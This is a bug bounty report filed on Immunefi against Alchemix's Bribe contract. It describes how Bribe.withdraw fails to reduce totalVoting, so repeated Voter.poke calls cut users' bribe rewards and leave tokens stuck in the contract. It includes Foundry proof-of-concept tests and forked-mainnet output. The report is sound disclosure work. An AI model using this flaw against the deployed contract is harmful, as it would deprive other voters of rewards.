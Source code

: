 
# Users might receive less rewars token after `Voter.poke` is called.

Submitted on Tue May 14 2024 14:56:20 GMT-0400 (Atlantic Standard Time) by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31199

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
A token owner can call `Voter.poke` to update the voting power, during the `Voter.poke` call, the `Bribe.totalVoting` isn't updated correctly, which results that the `Bribe.earned` will not calculate the rewards correctly.

## Vulnerability Details
While a token owner calls [Voter.poke](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L194-L212), `Voter._reset` is called at the beginning of the [Voter._vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L413).
In `Voter._reset`, `Bribe.withdraw` is called in [Voter.sol#L396](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L396)
And `Bribe.withdraw` is defined [as](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L319-L329)
```solidity
319     function withdraw(uint256 amount, uint256 tokenId) external {
320         require(msg.sender == voter);
321 
322         totalSupply -= amount;
323         balanceOf[tokenId] -= amount;
324 
325         _writeCheckpoint(tokenId, balanceOf[tokenId]);
326         _writeSupplyCheckpoint();
327 
328         emit Withdraw(msg.sender, tokenId, amount);
329     }
```

On other side, `Bribe.deposit` is defined [as](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L303-L316)
```solidity
303     function deposit(uint256 amount, uint256 tokenId) external {
304         require(msg.sender == voter);
305 
306         totalSupply += amount;
307         balanceOf[tokenId] += amount;
308 
309         totalVoting += amount;
310 
311         _writeCheckpoint(tokenId, balanceOf[tokenId]);
312         _writeSupplyCheckpoint();
313         _writeVotingCheckpoint();
314 
315         emit Deposit(msg.sender, tokenId, amount);
316     }
```


**As show above, `totalVoting` isn't updated in `Bribe.withdraw`, and the function doesn't call `_writeVotingCheckpoint` to update the checkpoint**.

Then, while calculating the reward in [Bribe.earned](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L221-L280),  the function uses `votingCheckpoints.votes` to calculate the rewards in [Bribe.sol#L255-L261](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L255-L261) and [Bribe.sol#L268-L277](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L268-L277)

```solidity
221     function earned(address token, uint256 tokenId) public view returns (uint256) {
...
242         if (_endIndex >= 0) {
243             for (uint256 i = _startIndex; i <= _endIndex; i++) {
...
254                 prevRewards.timestamp = _nextEpochStart;
255                 _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes; <<<--- totalVoting is used here
256 
257                 // Prevent divide by zero
258                 if (_prevSupply == 0) {
259                     _prevSupply = 1;
260                 }
261                 prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
262             }
263         }
...
268         uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes; <<<--- totalVoting is used here
...
279         return reward;
280     }
```

So to sum up, during `Voter.poke` call:
1. `Bribe.withdraw` will be called, but within the function `Bribe.totalVoting` isn't deducting `amount`
1. `Bribe.deposit` will be called in [Voter._vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L441), but this time, `Bribe.totalVoting` is added `amount`
So `Voter.poke` function will cause `Bribe.totalVoting` to increase.
Then when calculating the rewards amount in `Bribe.earned`, `Bribe.totalVoting` is used, which will result wrong amount of rewards.


## Impact Details
User might receive less reward token after `Voter.poke` is called, and the unclaimed reward token will stuck in the contract.
## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
Add the following code to `src/test/Voting.t.sol`, and run 
```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/$API --fork-block-number 17133822 --mc VotingTest --mt testAliceBribes -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testAliceBribesNoPoke() (gas: 3532165)
Logs:
  token1 earned aura     :  50000
  token2 earned aura     :  50000

[PASS] testAliceBribesPoke() (gas: 3797647)
Logs:
  token1 earned aura     :  20000
  token2 earned aura     :  20000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.93ms (10.25ms CPU time)

```

From the output we can see that 
1. in `testAliceBribesNoPoke` Alice doesn't call `Voter.poke`, token1 and token2 will get 50000*1e18 aura
2. in `testAliceBribesPoke`, Alice calls `Voter.poke` 3 times, token1 and token2 will get 20000*1e18 aura

```solidity
    function testAliceBribesNoPoke() public {
        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 initialTimestamp = block.timestamp;

        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);
        tokens[0][0] = bal;
        tokens[0][1] = aura;

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);

        // Adding a bribe to a gauge should increase the bribes list length
        // Should be able to add a bribe at any point in an epoch
        hevm.warp(block.timestamp + 6 days);
        createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

        hevm.warp(block.timestamp + 8 days);
        console2.log("token1 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId1) / 1e18);
        console2.log("token2 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId2) / 1e18);
    }
    function testAliceBribesPoke() public {
        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 initialTimestamp = block.timestamp;

        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);
        tokens[0][0] = bal;
        tokens[0][1] = aura;

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Alice);
        voter.poke(tokenId1);
        hevm.prank(Alice);
        voter.poke(tokenId1);
        hevm.prank(Alice);
        voter.poke(tokenId1);

        // Adding a bribe to a gauge should increase the bribes list length
        // Should be able to add a bribe at any point in an epoch
        hevm.warp(block.timestamp + 6 days);
        createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

        hevm.warp(block.timestamp + 8 days);
        console2.log("token1 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId1) / 1e18);
        console2.log("token2 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId2) / 1e18);
    }
```
